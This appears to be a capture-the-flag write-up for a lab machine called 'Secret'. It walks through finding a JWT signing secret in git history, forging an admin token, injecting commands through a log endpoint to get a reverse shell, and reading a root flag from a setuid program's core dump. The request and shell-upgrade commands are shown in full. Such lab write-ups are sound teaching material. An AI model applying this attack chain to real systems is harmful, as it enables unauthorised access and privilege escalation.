 # Secret

* Found port 80 and 3000 open running an application

* Downloaded source code from the app

* Looks like i can curl and register a new user

```bash
curl -i -X POST http://10.10.11.120/api/user/register -H 'Content-Type: application/json' -d '{"name": "brun0test","email": "brun0@dasith.works","password": "password"}'
```

* Looks like when i login i get a jwt token

```bash
curl -i -X POST http://10.10.11.120/api/user/login -H 'Content-Type: application/json' -d '{"email": "brun0@dasith.works","password": "password"}'

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBjMDQzNWFmMWQ3NDA0NWFkM2QyYWQiLCJuYW1lIjoiYnJ1bjB0ZXN0IiwiZW1haWwiOiJicnVuMEBkYXNpdGgud29ya3MiLCJpYXQiOjE2NDQ5NTQ3MzV9.BC84EumEfq6xymOBroweZ5GenENkkBX4GR7A8ZIkFiw
```

* Making a GET request to `/api/priv` retrivies that i am a normal user, need to elevate to admin

```bash
GET /api/priv/ HTTP/1.1
Host: 10.10.11.120
auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjBjMDQzNWFmMWQ3NDA0NWFkM2QyYWQiLCJuYW1lIjoiYnJ1bjB0ZXN0IiwiZW1haWwiOiJicnVuMEBkYXNpdGgud29ya3MiLCJpYXQiOjE2NDQ5NTQ3MzV9.BC84EumEfq6xymOBroweZ5GenENkkBX4GR7A8ZIkFiw
```

* Tried various things but nothing worked ... found .git and checked git logs

* Found a log saying `deleted .env for security reasons` but the file is still there

* Using `git diff HEAD~2` I could check there is a token

```bash
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```

* So changing the jwt token with the new secret i could login

![image](https://user-images.githubusercontent.com/12052283/154136415-f68376a0-dc67-49c9-9fb0-ea78667db365.png)

* Going to `/api/logs` I find in the source code that this endpoint accepts a file param and execs a git command. Since its using exec I could try a rev shell

![image](https://user-images.githubusercontent.com/12052283/154137623-a9f02c0f-54ac-4a46-9548-06fdc91c40c0.png)

![image](https://user-images.githubusercontent.com/12052283/154137820-68ed8bbd-dc5a-4828-b89f-f2ff368ddab2.png)

* Got RCE in the file param

![image](https://user-images.githubusercontent.com/12052283/154138342-cdc6c21f-5902-4683-a3c2-719b3a6a7878.png)

* Using a rev shell url encoded instead of `cat /etc/passwd` got a rev shell

* Upgraded shell doing `python3 -c 'import pty;pty.spawn("/bin/bash")'` then `Ctrl Z` then `stty raw - echo` then `fg` and then `export TERM=xterm`

* linPEAS was not helpfull so I found interesting files in `/opt`

* The code in `/opt/code.c` shows that when iterating trough files and folders we have SETUID and when those two functions finish we go down again to no SETUID so I have to use `/root/root.txt` to read that file content . Tried with gdb but using gdb the SETUID is disabled i guess

* The other way around is to execute the program, Ctrl Z , kill the process, fg to generate a core dump. Then I need to go to /var/crashes and unpack using `apport-unpack` to view the data. The flag will be in the `CoreDump` file

